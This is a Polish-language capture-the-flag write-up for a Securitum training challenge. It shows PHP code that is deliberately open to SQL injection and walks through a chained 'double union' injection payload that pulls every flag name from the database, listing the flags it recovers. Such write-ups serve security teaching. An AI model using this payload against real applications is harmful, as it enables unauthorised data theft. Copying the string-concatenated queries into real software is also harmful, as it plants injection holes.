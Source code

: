 ### [Do najprostszych nie należy](http://training.securitum.com/rozwal/gim/gimnazjum4/)

[Rozwiązanie](http://training.securitum.com/rozwal/gim/gimnazjum4/?id=11111%20union%20select%20%27hania%22%20union%20select%20name%20from%20flags%20where%20%221%22=%221%27): _DoubleUnion_

**Metoda**:

1. Zajrzeć w źródło strony:

    ```php
    <!--?php
    readfile(__FILE__);
    $db= new SQLite3('db.db');
    $_GET['id'] = str_replace('-','',$_GET['id']);

    $odp='';

    $res = $db-->
 
    query('SELECT name FROM flags WHERE id='.$_GET['id'].' LIMIT 1');
    while($r=$res-&gt;fetchArray()) {
	    $odp=$r['name'];
    }

    $res = $db-&gt;query('SELECT count(*) FROM flags WHERE name="'.$odp.'"');
    while($r=$res-&gt;fetchArray()) {
	    echo $r[0];
    }
    ```

2. Do wyniku pierwszego zapytania przechowywanego w zmiennej `odp` trzeba dokleić kawałek kodu SQL, który
   pozwoli na atak podczas drugiego zapytania.
   
   Przez obecność `LIMIT 1`, wynik zapytania o id powinien zwrócić 0 wyników, żeby pod uwagę był brany drugi człon zapytania, które
   chcemy dokleić.
   
   Aby upewnić się, że wstawiamy id, które nie istnieje wystarczy zapytanie:
   [http://training.securitum.com/rozwal/gim/gimnazjum4/?id=11111](),
   które wypisuje 0 na stronie.
   
3. Następnie należy dopisać kawałek zapytania, które będzie zawiera w sobie stringa z kolejnym wstrzykiwanym
   zapytaniem i zostanie przekazane do zmiennej `odp`:
   `union select 'hania" union select name from flags where "1"="1'`
   
   Istotne są różne znaki ' i ", żeby nie zniszczyć struktury zapytania.
   
4. Całe zapytanie przesłać w URLu:

   `?id=11111 union select 'hania" union select name from flags where "1"="1'`

   Odpowiedź:

   `0ROZWAL_NIE_TEN_FORMATROZWAL_{DoubleUnion}ROZWAL_{OdZjazduGimboliGlowaBoli}ROZWAL_{SelectNameFromGimbus}ROZWAL_{ZjazdGimboli}`


[1]: https://en.wikipedia.org/wiki/Base64
[2]: https://en.wikipedia.org/wiki/Brute-force_attack
[3]: www.sqlite.org/src/
[4]: https://en.wikipedia.org/wiki/MD5
[5]: https://en.wikipedia.org/wiki/Letter_frequency